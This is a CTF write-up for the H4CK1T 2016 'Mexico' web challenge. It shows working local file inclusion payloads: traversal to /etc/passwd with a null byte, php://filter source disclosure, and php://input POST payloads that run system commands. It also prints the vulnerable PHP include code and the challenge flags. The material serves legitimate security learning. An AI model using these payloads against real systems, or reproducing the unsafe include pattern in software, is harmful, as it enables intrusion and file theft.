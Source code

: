 ```yaml
---
title: '[H4CK1T 2016] Pentest – Mexico Writeup'
author: Megabeets
type: posts
date: 2016-10-02T20:54:26+00:00

categories:
  - H4CK1T CTF 2016
  - Writeups
tags:
  - CTF
  - H4CK1T
  - Web
  - Writeups

---
```

### **Description:**

> **Task: Remote pentest &#8211; Mexico &#8211; 150 &#8211; Web**
> 
> <span style="font-weight: 400;">Our foreign partners have some problems with qualified staff in the field of information technology, we decided to help them and to conduct remote testing of their new website. Your task is to find a hole in the system and grab some information to confirm the hack .Good luck !</span>  
> [<span style="font-weight: 400;">http://91.231.84.36:9150/</span>][1]

YAY! Web challenge! If you are following my blog <span style="font-size: 10pt;"><em>(If not, the subscribe form is on left)</em></span> you already know how much I love web challenges, It&#8217;s either easy points or great puzzle.

Let&#8217;s open the website and see what we have:

<img src="./h4ck1t_mexico1.png" /> 

WOW! JUSTICE LEAGUE! Did I mentioned that I love comic books and especially Batman? Oh, Not yet?

Well, this challenge is going to be awesome. No. It&#8217;s already awesome!

OK, deep breath. Let&#8217;s start. See that menu on the bottom? Let&#8217;s click on some link to see what will happen.

<img src="./h4ck1t_mexico2.png" /> 

Look at the URL, the &#8220;about&#8221; page is included by the &#8220;index.php&#8221; using php commands &#8216;require&#8217; or &#8216;include&#8217;. When we see something like that in a challenge we can check if the site is vulnerable to LFI attack. In Local File Inclusion attack we can include pages from the local server. Let&#8217;s try to include /etc/passwd to check for the existence of the vulnerability

http://91.231.84.36:9150/index.php?page=../../../../etc/passwd

Didn&#8217;t work. Let&#8217;s try to add null byte at the end

http://91.231.84.36:9150/index.php?page=../../../../etc/passwd%00

<img src="./h4ck1t_mexico3.png" /> 

It worked! We successfully got the /etc/passwd file. So what now? Let&#8217;s try to read the pure php file to see if the flag is in the php pages.

We can use php://filter to print the content of index.php in base64 format. We need to encode the content because we don&#8217;t want the php engine to compile the php parts of the code.

http://91.231.84.36:9150/index.php?page=php://filter/convert.base64-encode/resource=index

We got encoding page, now let&#8217;s decode it and see if we find a flag . I deleted some content to decrease the size of the code in the post.

```php
<?php
    if ($_GET["page"]) {
    $file = $_GET["page"].".php";
    // simulate null byte issue
    $file = preg_replace('/\x00.*/',"",$file);
        include($file);
    } 
    else
    {
        echo '    <div class="container">
        <div class="row">
            <div class="col-md-6 col-sm-12">
                <h1>The Big Picture</h1>
                <p>Welcome to the Big Picture. This fantastic digital resource combines the best of formal and informal learning. 
If you are already using The Big Picture, you can register for and access exclusive extra material from this platform. 
This is The Big Picture: have you experienced it yet?  </p> 
            </div>
        </div>';
    }
    //flag{h@h@h@_man_n1ce_try} 

?>
<!DOCTYPE html>
<html class="full" lang="en">
<head>

...
...
...

    </div>
    <script src="js/jquery.js"></script>
    <script src="js/bootstrap.min.js"></script>

</body>

</html>

```


&nbsp;

Nope. No flag. The &#8220;flag{&#8230;}&#8221; thing isn&#8217;t really the flag because the flag in this CTF should be in h4ck1t{&#8230;} format.  
Also the other pages like &#8216;about&#8217; and &#8216;contact&#8217; is not contain any flag. So we probably need to perform LFI to RCE (Remote Code Execution) attack. We can use the php://input method to send php commands through Post requests. Using Firefox Hackbar plugin we can do it easily.  
Put the URL to be http://91.231.84.36:9150/index.php?page=php://input  And the POST data to be

```default
<?  system('ls') ;?>
```


<img src="./h4ck1t_mexico4.png" /> 

Success. We got the RCE and we now know about a new secret file. Let&#8217;s read it using the same way but this time with

```php
 <?  system('cat file') ;?>
```


And we got the flag 🙂

`<strong>Flag: </strong><em>h4ck1t{g00d_rfi_its_y0ur_fl@g}</em>`



 [1]: http://91.231.84.36:9150/